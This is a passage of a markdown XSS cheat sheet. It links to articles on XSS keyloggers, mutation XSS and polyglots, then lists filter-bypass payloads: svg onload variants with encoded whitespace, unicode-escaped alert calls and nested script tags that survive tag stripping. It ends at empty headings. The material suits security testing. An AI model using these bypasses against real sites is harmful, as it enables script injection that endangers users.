 https://portswigger.net/daily-swig/xss-protection-disappears-from-microsoft-edge

https://developer.mozilla.org/pt-BR/docs/Web/HTTP/Headers/X-XSS-Protection

### XSS Keylogger

https://rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/https://github.com/hadynz/xss-keylogger

### XSS Mutation

http://www.businessinfo.co.uk/labs/mxss/

### XSS Poliglote

https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

### Regex Blacklist Filtering

- > Filter blocking on - Bypass

`(on\\w+\\s*=)`

```
<svg onload%09=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)>

```

### Keyword Based in Filter

### Alert Blocked - Bypass

```
<script>\\u0061lert(1)</script>
<script>\\u0061\\u006C\\u0065\\u0072\\u0074(1)</script>
<script>eval("\\u0061lert(1)")</script>
<script>eval("\\u0061\\u006C\\u0065\\u0072\\u0074\\u0028\\u0031\\u0029")</script>

```

### Removing script Tag - Bypass

```
<sCR<script>iPt>alert(1)</SCr</script>IPt>

```

### Scaping Quote

### Methods

- > String.fromCharCode()
